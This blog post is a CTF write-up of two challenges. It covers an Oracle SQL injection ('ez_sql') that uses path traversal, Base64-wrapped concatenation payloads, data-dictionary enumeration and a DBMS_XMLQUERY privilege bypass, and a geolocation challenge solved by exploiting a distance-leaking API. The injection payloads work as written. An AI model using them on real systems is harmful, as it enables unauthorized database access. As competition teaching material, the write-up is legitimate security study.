

A week after the pentest track, I entered the CTF. With plenty of help from GPT, I placed sixth again. A few people ahead of me apparently withdrew afterward, moving me up to fifth, though I stayed in the third-prize tier. I also solved every Misc challenge and won a category prize, meow! Finals have kept me busy lately, so I'll start by posting a few of the easier writeups.




## ez_sql

### Challenge background

The challenge is called `ez_sql`, and the description is quite direct:

```text
签到题，非常简单的sql

hint：hint.txt
```

At first it looks like an ordinary SQL injection challenge, but the challenge doesn't lay the injection point out directly — instead, it hides the clues across a few pages and a hint file.

Overall this isn't a complex web chain; the core is:

```text
找到能提交内容的位置
  -> 找到管理员日志回显位置
  -> 通过 hint 确认回显字段是 AUDIT_NOTE
  -> 发现提交内容会被 Base64 存储/处理
  -> 用拼接注入把查询结果带到管理员日志里
  -> 枚举当前用户、表名、列名
  -> 直接查 SYS.FLAG_STORE 失败
  -> 利用低版本 Oracle 的 XML 查询包绕过权限边界
  -> 从 XML 回显里拿到 flag
```

In short: first find "where you can input something and where you can see the result", then use Oracle string concatenation to stuff the query result into the log.

------

### Information gathering

#### Approach

First scan the directories to see which pages are accessible.

The more important ones in the results are these:

```text
/download.php
/dashboard.php
/login.php
/review.php
/admin/log.php
```

Among them, `/admin/` itself is a 403, but `/admin/log.php` is accessible, which looks a lot like an "admin review log" page.

#### Key results

Scanning the root directory shows:

```text
200 - /download.php
200 - /dashboard.php
200 - /login.php
200 - /review.php
```

Continuing to scan `/admin` shows:

```text
200 - /admin/log.php
```

#### Result

This basically confirms two entry points:

```text
/review.php      提交匿名 review
/admin/log.php   查看管理员日志
```

The focus from here is finding the data flow between these two pages.

------

### Reading hint.txt

#### Approach

The challenge description said:

```text
hint：hint.txt
```

While scanning directories, I found `/download.php`; accessing it directly with no parameters makes it print its own source.

In the source, you can see that it reads files from the `exports` directory:

```php
if (!isset($_GET['file'])) {
    header('Content-Type: text/plain; charset=utf-8');
    readfile(__FILE__);
    exit;
}

$file = $_GET['file'];
$path = __DIR__ . '/exports/' . $file;
```

And it only allows `.txt` files, or files whose basename is `review.php`:

```php
if (!preg_match('/\.txt$/i', $file) && basename($path) !== 'review.php') {
    http_response_code(403);
    echo 'export denied';
    exit;
}
```

So first read what the challenge hints at:

```text
/download.php?file=hint.txt
```

Returns:

```text
We used AUDIT_NOTE as the audit note field and echoed its content in the administrator log.
```

#### Result

This sentence is crucial; it means:

```text
AUDIT_NOTE 字段会出现在管理员日志里
```

In other words, as long as we can control the content of `AUDIT_NOTE`, we may be able to see the result in `/admin/log.php`.

------

### Reading the review.php source

#### Approach

`download.php` has another small problem: although it joins the path under `exports`, it doesn't fully restrict `../`.

It also allows files whose basename is `review.php`, so we can read:

```text
/download.php?file=../review.php
```

That gets us the source of the review submission page.

#### Key code

`review.php` has a WAF:

```php
function waf_blocked($value) {
    $deny = [
        'select', 'union', 'insert', 'update', 'delete', 'drop',
        'sys.', 'dbms_', 'dbm$_', 'utl_', '--', '/*', '*/',
        'chr(', 'execute', 'procedure', 'function'
    ];
    $lower = strtolower($value);
    foreach ($deny as $token) {
        if (strpos($lower, $token) !== false) {
            return $token;
        }
    }
    return false;
}
```

And the submitted content must match the Base64 character set:

```php
} elseif (!preg_match('/^[A-Za-z0-9+\/=]{8,4096}$/', $content)) {
    $message = 'Submission rejected.';
} else {
    $id = add_review($target, $content);
    $message = 'Anonymous review #' . $id . ' submitted for moderation.';
}
```

#### Result

Two pieces of information here:

```text
review_content 不能直接写 SQL 关键字
review_content 只能是 Base64 格式
```

In other words, before it actually enters the database, there is very likely a Base64 decode.

So when crafting the payload later, instead of submitting a SQL fragment directly, we first Base64-encode the SQL fragment and then submit it.

------

### Confirming the injection echo point

#### Approach

The hint already told us `AUDIT_NOTE` shows up in the admin log, so first test with the simplest Oracle string concatenation.

In Oracle, `||` is string concatenation. Suppose the backend concatenates something like this during review:

```sql
'Reviewed: ' || AUDIT_NOTE
```

Then as long as `AUDIT_NOTE` can close the string, we can concatenate the result of an expression into it.

#### Testing the current user

First test:

```sql
'||USER||'
```

Because the submission endpoint requires Base64, submit its Base64:

```text
J3x8VVNFUnx8Jw==
```

Then go to `/admin/log.php` to see the result, which shows:

```text
Reviewed: HR_ADMIN
```

#### Result

This step shows the injection chain works:

```text
/review.php 提交 Base64 内容
  -> 后端解码
  -> 内容进入 AUDIT_NOTE
  -> 审核/日志 SQL 拼接时触发表达式
  -> /admin/log.php 回显结果
```

The current execution context is:

```text
HR_ADMIN
```

------

### Enumerating the current schema

#### Approach

Continue confirming the current schema. Here I use Oracle's:

```sql
SYS_CONTEXT('USERENV','CURRENT_SCHEMA')
```

payload:

```sql
'||SYS_CONTEXT('USERENV','CURRENT_SCHEMA')||'
```

Submit after Base64:

```text
J3x8U1lTX0NPTlRFWFQoJ1VTRVJFTlYnLCdDVVJSRU5UX1NDSEVNQScpfHwn
```

The admin log echoes:

```text
Reviewed: HR_ADMIN
```

#### Result

Both the current user and the current schema are:

```text
HR_ADMIN
```

This identifies the current user and schema as something other than SYS; it does not, by itself, establish the user's privileges.

------

### Enumerating the flag table

#### Approach

Next, find tables containing `FLAG` from the data dictionary.

payload:

```sql
'||(SELECT table_name FROM all_tables WHERE table_name LIKE '%FLAG%' AND rownum=1)||'
```

After Base64:

```text
J3x8KFNFTEVDVCB0YWJsZV9uYW1lIEZST00gYWxsX3RhYmxlcyBXSEVSRSB0YWJsZV9uYW1lIExJS0UgJyVGTEFHJScgQU5EIHJvd251bT0xKXx8Jw==
```

The log echoes:

```text
Reviewed: FLAG_STORE
```

#### Result

Found the flag table name:

```text
FLAG_STORE
```

------

### Enumerating the column name and owner

#### Approach

With the table name, continue querying the column names.

payload:

```sql
'||(SELECT column_name FROM all_tab_columns WHERE table_name='FLAG_STORE' AND rownum=1)||'
```

After Base64:

```text
J3x8KFNFTEVDVCBjb2x1bW5fbmFtZSBGUk9NIGFsbF90YWJfY29sdW1ucyBXSEVSRSB0YWJsZV9uYW1lPSdGTEFHX1NUT1JFJyBBTkQgcm93bnVtPTEpfHwn
```

The log echoes:

```text
Reviewed: S3CR3T
```

Continue querying the owner:

```sql
'||(SELECT owner FROM all_tables WHERE table_name='FLAG_STORE' AND rownum=1)||'
```

After Base64:

```text
J3x8KFNFTEVDVCBvd25lciBGUk9NIGFsbF90YWJsZXMgV0hFUkUgdGFibGVfbmFtZT0nRkxBR19TVE9SRScgQU5EIHJvd251bT0xKXx8Jw==
```

The log echoes:

```text
Reviewed: SYS
```

#### Result

This pins down the final target:

```text
表：SYS.FLAG_STORE
列：S3CR3T
```

------

### Direct read fails

#### Approach

Since we already know the table and column names, first try querying directly:

```sql
'||(SELECT S3CR3T FROM SYS.FLAG_STORE WHERE rownum=1)||'
```

After Base64:

```text
J3x8KFNFTEVDVCBTM0NSM1QgRlJPTSBTWVMuRkxBR19TVE9SRSBXSEVSRSByb3dudW09MSl8fCc=
```

But the admin log doesn't echo normally; instead a database error appears:

```text
ORA-00942: table or view does not exist
```

Try again:

```sql
'||(SELECT COUNT(*) FROM SYS.FLAG_STORE)||'
```

Same error.

#### Result

This points to a problem:

```text
当前注入执行用户能从 all_tables / all_tab_columns 看到 SYS.FLAG_STORE 的元信息，
但没有权限直接 SELECT SYS.FLAG_STORE。
```

So this challenge doesn't end once you've enumerated the table name; you also need to find a way to bypass the permission boundary.

------

### Noting the WAF's gap

#### Approach

Looking back at `review.php`'s WAF, it does block a lot of things:

```text
select / union / sys. / dbms_ / utl_ / execute / function ...
```

But this WAF checks the Base64 string, not the decoded content with full SQL semantics.

So as long as what's submitted is Base64, keywords like `select`, `sys.`, and `dbms_` in the plaintext aren't directly caught by this function.

#### Result

That's why the earlier enumeration payloads submitted successfully.

The real restriction isn't the submission-endpoint WAF but the database permissions:

```text
HR_ADMIN 无法直接读 SYS.FLAG_STORE
```

------

### Using DBMS_XMLQUERY to get the result

#### Approach

The sticking point here is permissions. Directly:

```sql
SELECT S3CR3T FROM SYS.FLAG_STORE
```

throws `ORA-00942`.

Then I recalled that some XML query packages in older Oracle versions may have permission-boundary issues. `DBMS_XMLQUERY.GETXML()` accepts a query string, executes it, and returns the result wrapped as XML.

In this challenge environment, the package call succeeded where a direct SELECT failed, so I could turn the result into XML and concatenate it into the log. That is an observation about this target's setup, not a general promise that the package bypasses Oracle permissions.

The final payload is:

```sql
'||dbms_xmlquery.getxml('select S3CR3T from SYS.FLAG_STORE')||'
```

Base64 before submitting, as before:

```text
J3x8ZGJtc194bWxxdWVyeS5nZXR4bWwoJ3NlbGVjdCBTM0NSM1QgZnJvbSBTWVMuRkxBR19TVE9SRScpfHwn
```

#### Result

After submitting, check `/admin/log.php`, and you can see that `AUDIT_NOTE` was replaced with XML:

```xml
<ROWSET>
  <ROW>
    <S3CR3T>Spirit{3z-Or@c134cfa441606aa0}</S3CR3T>
  </ROW>
</ROWSET>
```

In other words, the flag has already been echoed inside the XML tags.

------

### Why this works

#### Approach

In the end this challenge isn't an ordinary SQL injection reading a table directly, but has one extra Oracle-specific trick.

You can think of it as:

```text
普通 SELECT：
HR_ADMIN 直接查 SYS.FLAG_STORE，权限不够，所以 ORA-00942。

XML 查询包：
DBMS_XMLQUERY.GETXML 接收查询字符串，把查询结果转成 XML 返回。
在题目这个低版本/错误授权环境里，它帮我们执行了那条查询，
结果又被原来的 || 拼接带回管理员日志。
```

The final data flow is:

```text
Base64 payload
  -> review.php 接收
  -> 后端解码后写入 AUDIT_NOTE
  -> 审核日志拼接 AUDIT_NOTE
  -> 触发 Oracle 表达式
  -> dbms_xmlquery.getxml 执行内部查询
  -> 查询结果转成 XML
  -> /admin/log.php 回显 XML
  -> 从 S3CR3T 标签中拿 flag
```

#### Result

The key to this trick isn't the "XML format" itself, but:

```text
查询结果被变成字符串，并通过原有日志回显带出来
```

------

### Final result

The admin log shows:

```text
Reviewed: <ROWSET><ROW><S3CR3T>Spirit{3z-Or@c134cfa441606aa0}</S3CR3T></ROW></ROWSET>
```

So the final flag is:

```text
Spirit{3z-Or@c134cfa441606aa0}
```

## Deliverables

### Challenge background

This is a "guess the image location" Misc challenge.

The page gives an image; the intended approach is to figure out the location from the image content, then submit the coordinates on a map. On submission, the front end sends a request to the backend:

```http
POST /api/guess
Content-Type: application/json

{"coordinate":"90,90"}
```

The backend returns something like this:

```json
{
  "correct": false,
  "distanceMeters": 6601044,
  "nextIndex": 0,
  "completed": false
}
```

At first it looks like an ordinary geolocation challenge, but the crucial information here isn't the image itself — it's this field in the response:

```text
distanceMeters
```

It directly tells us the distance between the submitted coordinate and the correct coordinate.

In other words, this challenge doesn't necessarily require actually recognizing the image; with this distance feedback, we can reverse-engineer the correct coordinate.

------

### Overall approach

The key route for this challenge is:

```text
观察 /api/guess 接口
  -> 发现返回包会泄露 distanceMeters
  -> 用南北极两次查询反推出纬度
  -> 用同纬度经度 0 查询反推出经度绝对值
  -> 试正负经度确定方向
  -> 必要时再小范围微调
  -> 每一关重复这个过程
  -> 完成所有关卡拿到 flag
```

In short, it turns "guess the image location" into a mathematical positioning problem.

The backend tells us the distance to the target every time, and this feedback is so precise that there's no need to brute-force a large range or slowly drag around the map trying spots.

------

### Observing the submission endpoint

#### Approach

First capture one normal submission to see which endpoint the front end sends coordinates to.

After capturing, you can see the request path is:

```text
/api/guess
```

The request body is a JSON:

```json
{"coordinate":"90,90"}
```

Here `coordinate` is in string format, two numbers separated by a comma.

#### Key response

Submit any coordinate, for example:

```text
90,90
```

Returns:

```json
{
  "correct": false,
  "distanceMeters": 6601044,
  "nextIndex": 0,
  "completed": false
}
```

The meanings of the fields are roughly:

| Field | Meaning |
| --- | --- |
| `correct` | whether the current coordinate is correct |
| `distanceMeters` | the distance from the current coordinate to the correct location, in meters |
| `nextIndex` | the next level number; it doesn't change until you answer correctly |
| `completed` | whether all levels have been completed |

#### Result

This confirms a very important point:

```text
后端会直接返回当前坐标距离正确坐标的米数
```

So the breakthrough for this challenge is `distanceMeters`.

------

### Why not ordinary brute force

#### Approach

The most direct idea is to scan every latitude and longitude on the globe, for example:

```text
纬度 -90 到 90
经度 -180 到 180
```

But this approach requires far too many requests, and the precision isn't enough either.

For example, scanning at 1 degree only reaches the city level; scanning at 0.01 degrees makes the request count absurd.

#### Key idea

`distanceMeters` isn't an ordinary "far / near" hint but a precise distance.

If we know the distances from a few special points to the target point, we can reverse-engineer the target's latitude and longitude.

So the real approach isn't grid brute force but:

```text
用少量特殊坐标测距
  -> 根据球面距离公式反推目标位置
```

#### Result

This way each level needs only a small number of requests to compute the coordinate directly.

------

### Reverse-engineering latitude with the poles

#### Approach

First submit once to the North Pole:

```text
90,0
```

Then submit once to the South Pole:

```text
-90,0
```

Let the target latitude be `lat` and the Earth's radius be `R`.

The great-circle distance from the North Pole to the target point is:

```text
d_north = R * (π/2 - lat)
```

The great-circle distance from the South Pole to the target point is:

```text
d_south = R * (π/2 + lat)
```

Adding the two equations gives the Earth's radius:

```text
R = (d_north + d_south) / π
```

Subtracting the two equations gives the latitude:

```text
lat = (d_south - d_north) / (2R)
```

Here `lat` is in radians first, then converted to degrees.

#### Key code

The corresponding logic in the script is:

```python
d_north = guess(90, 0, "north")
d_south = guess(-90, 0, "south")

R = (d_north + d_south) / math.pi
lat_rad = (d_south - d_north) / (2 * R)
lat = math.degrees(lat_rad)
```

#### Actual results

The first level comes out something like this:

```text
north   90.00000000,0.00000000    d=6601044
south  -90.00000000,0.00000000    d=13414043
```

Reverse-engineered:

```text
R   ≈ 6371000
lat ≈ 30.63538570
```

#### Result

At this point, the target's latitude is basically determined.

------

### Reverse-engineering longitude with the same latitude at longitude 0

#### Approach

With the latitude, submit a point at the same latitude with longitude 0:

```text
lat,0
```

The backend returns the distance from this point to the target point.

Because the two points have the same latitude, we can use the spherical law of cosines to reverse-engineer the absolute value of the longitude difference.

The formula is roughly:

```text
cos(d / R) = sin²(lat) + cos²(lat) * cos(delta_lng)
```

Rearranged:

```text
delta_lng = acos((cos(d / R) - sin²(lat)) / cos²(lat))
```

This gives how many degrees the target longitude differs from longitude 0.

#### Key code

The core part of the script is:

```python
d0 = guess(lat, 0, "same-lat-0")

sinp = math.sin(lat_rad)
cosp = math.cos(lat_rad)

val = (math.cos(d0 / R) - sinp * sinp) / (cosp * cosp)
val = max(-1.0, min(1.0, val))

delta = math.degrees(math.acos(val))
lon_candidates = [delta, -delta]
```

What we get here is the absolute value of the longitude, so there are two candidates:

```text
+delta
-delta
```

For example, the target could be in east longitude or west longitude.

#### Result

This step narrows the longitude range from the whole globe down to two candidate points.

------

### Determining the sign of the longitude

#### Approach

The previous step only gives the absolute value of the longitude; we still don't know whether it's positive or negative.

So just submit both candidates:

```text
lat,+delta
lat,-delta
```

Whichever returns the smaller distance is the one to pick.

If one of them already returns `correct=true` directly, the coordinate has been hit.

#### Key code

```python
best = None

for lon in lon_candidates:
    d = guess(lat, lon, "sign-test")
    cand = (d, lat, norm_lng(lon))

    if best is None or cand[0] < best[0]:
        best = cand
```

#### Actual results

The first level is accepted directly:

```text
[+] accepted: 30.63538570,114.54940516
[+] response: {'correct': True, 'distanceMeters': 0, 'nextIndex': 1, 'completed': False}
```

You can see the backend returns:

```text
correct = True
nextIndex = 1
```

This means the first image has passed and we move to the next level.

#### Result

At this point there's basically no need to look at the images manually.

As long as the backend keeps returning `distanceMeters`, every level can be solved the same way.

------

### Small-range fine-tuning

#### Approach

Sometimes, due to backend coordinate precision, rounding, or differences in how distance is computed, the point the formula produces may be off by a few meters and not pass directly.

So the script adds a small-range fine-tuning afterward.

The rough method is:

```text
从当前最优坐标出发
  -> 往周围 8 个方向试探
  -> 哪个点距离更小，就移动过去
  -> 步长逐渐变小
```

It's a bit like automatically "nudging toward the closer direction" on the map.

#### Key code

```python
steps = [
    1, 0.3, 0.1, 0.03, 0.01, 0.003,
    0.001, 0.0003, 0.0001, 0.00003,
    0.00001, 0.000003
]

for step in steps:
    improved = True

    while improved:
        improved = False

        for da in [-1, 0, 1]:
            for db in [-1, 0, 1]:
                if da == 0 and db == 0:
                    continue

                la = clamp_lat(best_lat + da * step)
                lo = norm_lng(best_lng + db * step)

                d = guess(la, lo)

                if d < best_d:
                    best_d = d
                    best_lat = la
                    best_lng = lo
                    improved = True
```

#### Result

This fine-tuning is mainly a fallback.

In actual testing, most levels are already close enough from the earlier geometric reverse-engineering — often `correct=true` directly.

------

### Watching out for the Cookie and level progress

#### Approach

This challenge uses a Cookie to record the current progress, for example:

```text
geo_progress=s%3A%7B%22levelIndex%22%3A0%7D...
```

After answering a level correctly, the server advances the progress to the next level.

So the script can't forcibly reuse the old Cookie for every level, or it may get stuck on the same level.

#### Key handling

Use `requests.Session()` to keep the session alive:

```python
sess = requests.Session()
```

If you copied a Cookie from the browser at the start, set it only once during initialization:

```python
if args.cookie:
    c = SimpleCookie()
    c.load(args.cookie)
    for k, v in c.items():
        sess.cookies.set(k, v.value)
```

During later requests, `Session` automatically saves the server's updated Cookie.

#### Result

This way the script can run multiple levels in a row, without manually copying a Cookie after each one.

------

### One-shot script

Save the complete script as:

```text
solve_geo.py
```

Pass the challenge address when running it:

```bash
python3 solve_geo.py 'https://4tgru4tyrhxa.challenge.jlu-terminal.site/' \
  --cookie 'geo_progress=你的Cookie'
```

If you don't have a manual Cookie, you can also just visit the home page first to let the server issue the initial progress Cookie, then run the script.

If you find the coordinates keep coming out wrong, try reversing the coordinate order:

```bash
python3 solve_geo.py 'https://4tgru4tyrhxa.challenge.jlu-terminal.site/' \
  --order lnglat
```

because some map front ends like to use:

```text
lng,lat
```

while this challenge actually uses:

```text
lat,lng
```

------

### The actual run

The first level comes out as:

```text
north          90.00000000,0.00000000  d=6601044
south         -90.00000000,0.00000000  d=13414043
estimated R=6371000.065, lat=30.63538570
same-lat-0     30.63538570,0.00000000  d=10313012
accepted: 30.63538570,114.54940516
```

Returns:

```json
{
  "correct": true,
  "distanceMeters": 0,
  "nextIndex": 1,
  "completed": false
}
```

Continue running the later levels.

Level 2:

```text
accepted: 30.65969436,104.08859492
```

Returns:

```json
{
  "correct": true,
  "distanceMeters": 1,
  "nextIndex": 2,
  "completed": false
}
```

Level 3:

```text
accepted: 40.11714913,124.38775520
```

Returns:

```json
{
  "correct": true,
  "distanceMeters": 1,
  "nextIndex": 3,
  "completed": false
}
```

The last level:

```text
accepted: 31.20566057,121.55044375
```

Returns:

```json
{
  "correct": true,
  "distanceMeters": 1,
  "nextIndex": 4,
  "completed": true
}
```

Here:

```text
completed = true
```

means all levels have been completed.

------

### Final result

After completion, the page returns the flag:

```text
SpiritGame{Wo_C@o-h31_sh3_gONg_KiNgla1aa9d31}
```
